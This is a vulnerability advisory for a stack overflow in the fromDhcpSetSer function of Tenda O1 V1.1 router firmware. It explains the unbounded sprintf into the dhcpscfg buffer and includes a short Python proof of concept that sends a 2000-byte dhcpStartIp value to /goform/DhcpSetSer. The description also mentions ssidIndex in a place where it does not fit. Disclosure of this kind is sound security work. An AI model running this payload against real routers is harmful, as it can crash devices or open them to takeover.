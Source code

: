 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3860.html

## Affected version

O1 V1.1 V1.0.0.7(10648)

## Vulnerability details

In the O1 V1.1 V1.0.0.7(10648) firmware has a stack overflow vulnerability in the `fromDhcpSetSer` function. The `dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2` variable receives the `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(dhcpscfg, "%s;%s;%s;%s;%s;%s;%s;%s;%s", enable, "br0", dips, dipe, dhcps_gw, dhcps_mask, dhlt, dns1, dns2);` can cause a buffer overflow. The user-provided  `dhcpStartIp, dhcpEndIp, dhcpGw, dhcpMask, dhcpLeaseTime, dhcpDns1, dhcpDns2` can exceed the capacity of the `dhcpscfg` array, triggering this security vulnerability.

![image-20240419163146829](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163146829.png)

![image-20240419163135430](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163135430.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpSetSer"
payload = b"a"*2000

data = {"dhcpStartIp": payload}
response = requests.post(url, data=data)
print(response.text)
```
